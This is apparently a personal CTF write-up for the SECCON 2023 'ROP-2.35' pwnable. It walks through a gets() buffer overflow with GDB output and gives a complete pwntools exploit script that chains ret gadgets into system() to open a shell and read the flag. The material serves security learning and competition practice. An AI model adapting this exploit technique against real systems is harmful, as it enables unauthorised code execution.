 ```yaml
---
toc: true
title: SECCON CTF 2023 Quals
description: 'Did not have much time to go hard on this one, but I do solve a few challenges'
date: 2023-09-16
author: Duc Anh Nguyen
---
```


Did not have time to go in hard with this CTF, but I did try to touch on the **pwnable** challenges as much as possible.
> Click the heading of each challenges to get source files.

## [**Pwnable**](https://github.com/heckintosh/CTF-Writeups/tree/main/SECCON)
This is how pwnable challenges should be made, just give the source code instead of making everyone turn on Ghidra.
### [ROP-2.35](https://github.com/heckintosh/CTF-Writeups/tree/main/SECCON/rop-2.35/published)
For beginner this challenge has some annoying steps that will make you mentally ill.

`main.c` is the source code provided:
```c
#include <stdio.h>
#include <stdlib.h>

void main() {
  char buf[0x10];
  system("echo Enter something:");
  gets(buf);
}
```

GDB output:
```asm
0x0000000000401156 <+0>:     endbr64
0x000000000040115a <+4>:     push   rbp
0x000000000040115b <+5>:     mov    rbp,rsp
0x000000000040115e <+8>:     sub    rsp,0x10
0x0000000000401162 <+12>:    lea    rax,[rip+0xe9b]        # 0x402004
0x0000000000401169 <+19>:    mov    rdi,rax
0x000000000040116c <+22>:    call   0x401050 <system@plt>
0x0000000000401171 <+27>:    lea    rax,[rbp-0x10]
0x0000000000401175 <+31>:    mov    rdi,rax
0x0000000000401178 <+34>:    mov    eax,0x0
0x000000000040117d <+39>:    call   0x401060 <gets@plt>
0x0000000000401182 <+44>:    nop
0x0000000000401183 <+45>:    leave
0x0000000000401184 <+46>:    ret
```


Set a breakpoint at `*main+39`. When we continue, it will not hit a breakpoint but output this.
```
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
[Attaching after Thread 0x7ffff7dc4740 (LWP 80425) vfork to child process 80428]
[New inferior 2 (process 80428)]
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
[Detaching vfork parent process 80425 after child exec]
[Inferior 1 (process 80425) detached]
process 80428 is executing new program: /usr/bin/dash
Error in re-setting breakpoint 1: No symbol table is loaded.  Use the "file" command.
Error in re-setting breakpoint 1: No symbol "main" in current context.
Error in re-setting breakpoint 1: No symbol "main" in current context.
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
Error in re-setting breakpoint 1: No symbol "main" in current contex
```

That is because the system call is actually creating child process and for some reasons my gdb chooses to follow the child and abandon the parent ***(bruh)*** as default. Stop this dodgy behavior through `set follow-fork-mode parent`.

We can overflow the buffer to overwrite the address when main returns with gets. Do your cyclic stuff to find the offset (search if you don't know what this is).
The question now is to return where. There is no `put@plt` in this binary so leaking libc base address is out of the question. NX is enabled and the buffer length is 16 bytes so I ain't doing shellcode. Notice that when main returns, rax contains the address of the buffer.

`*RAX  0x7fffffffddd0 ◂— 'somerandomvalue'`

And `gets` write our payload into the buffer at rax. There is a `mov rdi, rax` just before system is called. So we will be returning there after overflowing. Now `rdi` contains the value of our payload and system will use the value in `rdi` register as its argument. We can now execute *`system(payload)`*! Or can we?

When you debug this, after sending the payload, it can be seen that system is loading our payload as its arguments. It actually works in my Kali environment but it gives me this when exploiting remotely:

**`sh: 1: V\x11@ not found`**

Well this challenge's binary is built with libc-2.35 (hint: in title). So use [pwninit](https://github.com/io12/pwninit) to patch the binary with the libc-2.35 extracted from Ubuntu 22.04 docker (it is provided in the Dockerfile). It behaves exactly the same as the remote binary. Debugging the binary, it turns out that even though GDB shows that system is loading our command, it is pushing a bunch registers which leads to junk in the system argument. So we get rid of them gradually with `ret` gadget so that system loads our `/bin/sh\0` payload.

```python
# solve.py
from pwn import *

libc = ELF("./libc.so.6")
ld = ELF("./ld-2.35.so")
context.arch = 'amd64'
pty = process.PTY
is_local = False

elf = ELF("/home/kali/CTF/SECCON/rop-2.35/chall_patched")
if len(sys.argv) == 1:
    is_local = True
    p = process(elf.path, stdin=pty, stdout=pty)

elif len(sys.argv) > 1:
    #  nc rop-2-35.seccon.games 9999
    is_remote = True
    if len(sys.argv) == 3:
        host = sys.argv[1]
        port = sys.argv[2]
    else:
        host, port = sys.argv[1].split(':')
    p = remote(host, port)

def debug(cmd=''):
    if is_local: gdb.attach(p,cmd)

debug(cmd='''
        set follow-fork-mode parent
        b *main + 46
      ''')

offset = 24
system_address = elf.symbols["system"]

log.info("System plt: " + hex(system_address))
print(p.recvuntilS("Enter something:\n"))


payload = b"/bin/sh\0\0" + b"/bin/p" + b"/bin/pwd\0"
payload += p64(0x000000000040101a)
payload += p64(0x000000000040101a)
payload += p64(0x000000000040101a)
payload += p64(0x000000000040101a)
payload += p64(0x0000000000401169)
p.sendline(payload)
p.sendline("cat /flag*")
p.interactive()
```

### 2. Kmemo